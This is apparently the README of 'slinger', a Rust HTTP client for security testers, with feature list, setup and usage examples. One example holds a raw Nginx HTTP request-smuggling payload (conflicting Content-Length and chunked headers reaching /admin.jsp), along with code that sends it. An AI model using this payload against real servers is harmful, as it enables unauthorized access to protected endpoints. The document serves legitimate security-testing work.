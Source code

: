 <!-- Improved compatibility of back to top link: See: https://github.com/emo-crab/slinger/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the slinger. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![crates io][crates-shield]][crates-url]




<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/emo-crab/slinger">
    <img src="images/logo.svg" alt="Logo">
  </a>

<h3 align="center">slinger(投石器)</h3>

  <p align="center">
    An HTTP Client for Rust designed for hackers.
    <br />
    <a href="https://github.com/emo-crab/slinger"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/emo-crab/slinger">View Demo</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Report Bug</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Request Feature</a>
  </p>
</div>

<!-- ABOUT THE PROJECT -->

## About The Project

![Product Name Screen Shot][product-screenshot]

- customizable redirect policy
- http/https and socks5/socks5h proxies
- cookie store
- raw socket request
- HTTPS via tls

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->

## Getting Started

This example enables some optional features, so your `Cargo.toml` could look like this:

```toml
[dependencies]
slinger = { version = "0.1.2", features = ["serde", "cookie", "charset", "tls", "gzip"] }
```

And then the code:

```rust,no_run
fn main() -> Result<(), Box<dyn std::error::Error>> {
  let resp = slinger::get("https://httpbin.org/get")?;
  println!("{:?}", resp.text());
  Ok(())
}
```

<!-- USAGE EXAMPLES -->

## Example

- Nginx - Http Smuggling [CVE-2019-20372](https://scap.kali-team.cn/cve/CVE-2020-11724)

```rust
use std::io::BufRead;
use slinger::{ClientBuilder, HTTPRecord};

/// CVE-2020-11724
/// when you're using BurpSuite proxy need **disabled** "set **Connection** header on incoming request"
const RAW: &[u8] = b"GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
Content-Length: 42
Transfer-Encoding: chunked

0

GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
X: GET http://192.168.83.1:8080/admin.jsp HTTP/1.0

";

fn main() -> Result<(), Box<dyn std::error::Error>> {
  // let proxy = slinger::Proxy::parse("http://127.0.0.1:8080").unwrap();
  let client = ClientBuilder::new().build().unwrap();
  let mut raw = Vec::new();
  // replace \n to \r\n
  for line in RAW.lines() {
    match line {
      Ok(l) => {
        raw.extend(l.as_bytes());
        raw.extend(b"\r\n")
      }
      Err(err) => {
        println!("{:?}", err);
      }
    }
  }
  let resp = client.raw("http://127.0.0.1:9015/", raw, true).send()?;
  let record = resp.extensions().get::<Vec<HTTPRecord>>().unwrap();
  println!("{:?}", record);
  Ok(())
}

```

_For more examples, please refer to the [example](https://github.com/emo-crab/slinger/tree/main/examples)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any
contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also
simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->

## License

Distributed under the `GPL-3.0-only` License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->

## Contact

Your Name - [@Kali_Team](https://twitter.com/Kali_Team) - root@kali-team.cn

Project Link: [https://github.com/emo-crab/slinger](https://github.com/emo-crab/slinger)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

* [reqwest](https://github.com/seanmonstar/reqwest)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/slinger.svg?style=for-the-badge

[contributors-url]: https://github.com/emo-crab/slinger/graphs/contributors

[forks-shield]: https://img.shields.io/github/forks/emo-crab/slinger.svg?style=for-the-badge

[forks-url]: https://github.com/emo-crab/slinger/network/members

[stars-shield]: https://img.shields.io/github/stars/emo-crab/slinger.svg?style=for-the-badge

[stars-url]: https://github.com/emo-crab/slinger/stargazers

[issues-shield]: https://img.shields.io/github/issues/emo-crab/slinger.svg?style=for-the-badge

[issues-url]: https://github.com/emo-crab/slinger/issues

[license-shield]: https://img.shields.io/github/license/emo-crab/slinger.svg?style=for-the-badge

[license-url]: https://github.com/emo-crab/slinger/blob/master/LICENSE.txt

[product-screenshot]: images/screenshot.png

[crates-shield]: https://img.shields.io/crates/v/slinger.svg?style=for-the-badge

[crates-url]: https://crates.io/crates/slinger
